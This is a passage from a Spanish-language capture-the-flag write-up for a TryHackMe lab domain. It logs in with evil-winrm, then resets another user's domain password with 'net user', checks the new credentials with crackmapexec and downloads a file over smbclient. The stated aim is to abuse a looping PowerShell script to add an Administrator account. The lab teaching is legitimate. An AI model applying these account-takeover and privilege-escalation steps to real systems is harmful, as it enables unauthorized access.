 Ejecutamos evil-winrm :

```bash
evil-winrm -u buse -p PASS -i windcorp.thm

Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
'*Evil-WinRM* PS C:\Users\buse\Documents>' 

```

Nos dirigimos al escritorio de buse y encotraremos nuestra flag 2

# Priv. Escalation

Para empezar a escalar privilegios, primero debemos enumerar un poco la maquina, lo que hago es dirigirme al directorio C:\ para empezar a buscar algo. Por suerte, hay una carpeta llamada **scripts** que contiene un script escrito en PowerShell y archivo .txt. De primeras, le echamos un vistazo al scrip, Basicamente es un script que monitorea en bucle.

Debemos echar un vistazo a la parte donde dice :

```Powershell
get-content C:\Users\brittanycr\hosts.txt
```

Podremos ver que utiliza cmd para adquirir el contenido alojado en el usuario brittany. Lo que tenemos que hacer en este caso, es adquirir este archivo de texto y sobreescribirlo agregando un nuevo usuario con privilegios Administrador.

Asique lo primero que tenemos que hacer, es cambiarle la password a brittanycr para poder acceder via `smbclient`.

```powershell
net user brittanycr Hellothere! /domain
```

Una vez cambiada, podremos corroborar con crackmapexec si el comando funciono correctamente.

```bash
crackmapexec smb windcorp.thm -u brittanycr -p Hellothere!

SMB         windcorp.thm    445    FIRE             [*] Windows 10.0 
SMB         windcorp.thm    445    FIRE             [+] windcorp.thm\brittanycr:Hellothere!
```

Una vez hecho esto, procedemos a logearnos con smbclient y obtener el archivo de texto.

```bash
smbclient //windcorp.thm/Users -U brittanycr --password Hellothere!

smb: \> cd brittanycr\
smb: \brittanycr\> ls
  .                                   D        0  Sat May  2 19:36:46 2020
  ..                                  D        0  Sat May  2 19:36:46 2020
  hosts.txt                           A       22  Sun May  3 09:44:57 2020
smb: \brittanycr\> get hosts.txt
```
